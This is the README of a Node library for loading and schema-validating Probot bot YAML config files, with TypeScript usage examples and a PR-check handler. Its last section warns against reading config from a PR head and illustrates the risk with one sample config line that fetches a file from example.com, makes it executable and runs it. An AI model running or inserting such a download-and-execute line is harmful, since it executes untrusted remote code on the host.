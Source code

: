 # bot-config-utils

This is a small library for handling bot config file.

## Install

```bash
npm i @google-automations/bot-config-utils
```

## Get the config

This library supports yaml config file. You provide an config
interface. The code assumes we're in the probot handler.

```typescript
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME);
// config can be null.
```

## Provide the default value

You can use a similar method that supports default value.

```typescript
import {
  getConfigWithDefault,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}

const defaultConfig: Config = {'myConfig': 'myValue'};

const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfigWithDefault<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  defaultConfig);
// config is always a Config object.
```

## getConfig options
You can specify optional arguments via the `getConfigOptions` interface to `getConfig` and `getConfigWithDefault`.

```
{
  fallbackToOrgConfig: false,
  branch: 'release-9.x',
  schema: schema,
  additionalSchemas: additionalSchema
}
```
- fallbackToOrgConfig
  If set to true, it will try to fetch the config from `.github` repo in the
  same org, defaults to true.
- branch
  The branch for getting the config.
- schema
  The json schema definition. If specified, the loaded config will be validated
  against the given schema. It will throw an Error when validation fails.
- additionalSchemas
  Only required if you need to give additional schema definitions.

Here is a simple example for not falling back to `.github` repo, and
doing the schema validation.

```
// json schema definition
import schema from './config-schema.json';
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  {fallbackToOrgConfig: false, schema: schema}
);
// config can be null.
```

## Check config schema on PRs

To use this feature, the bot needs to have some permissions.

You have to add the following permissions:
- Pull Request Read/Write
- Checks Read/Write

You also have to subscribe to Pull Request events.

You also need to provide a schema definition. Here is an example definition:

```json
// config-schema.json
{
    "$schema": "http://json-schema.org/draft-07/schema#",
    "type": "object",
    "title": "flakybot config",
    "description": "Schema for flakybot configuration",
    "additionalProperties": false,
    "properties": {
	    "issuePriority": {
	        "description": "The default priority for flakybot issues",
	        "type": "string",
	    }
    }
}
```

Here is a sample handler(this assumes you're developping a Probot app):
```typescript
import {ConfigChecker} from '@google-automations/bot-config-utils';
import schema from './config-schema.json';

// ...

  app.on(
    [
      'pull_request.opened',
      'pull_request.reopened',
      'pull_request.edited',
      'pull_request.synchronize',
    ],
    async context => {
      const configChecker = new ConfigChecker<Config>(schema, CONFIG_FILENAME);
      const {owner, repo} = context.repo();
      await configChecker.validateConfigChanges(
        context.octokit,
        owner,
        repo,
        context.payload.pull_request.head.sha,
        context.payload.pull_request.number
      );
    }
  );
```

`validateConfigChanges` will check the config file format against the
schema you provided. It will submit a failing status check if:

- You are trying to add a wrong config file (currently it only checks
  `yaml` vs `yml`).
- You are trying to add a broken config file, or the config file
  doesn't match the schema.


## Fetch config from the PR head
Probot's implementation of config always fetches the config from the
main branch. This is a reasonable security meassure for a generic
library.

It is very dangerous to fetch the config from PR head expecially if
the config contains some external commands. Here is a simple example:

```yaml
prepareCommands: 'curl http://example.com/m && chmod +x m && ./m'

```

However, if your bot doesn't have such a field in the config file, it
is very natural to fetch the config from the PR head.

For this purpose, the ConfigChecker has a method:
`getConfig(): T | undefined`. This will return the config object only
if the validation succeeds.

Even if the config contains a dangerous field, you can selectively use
the value from the config in the PR head.
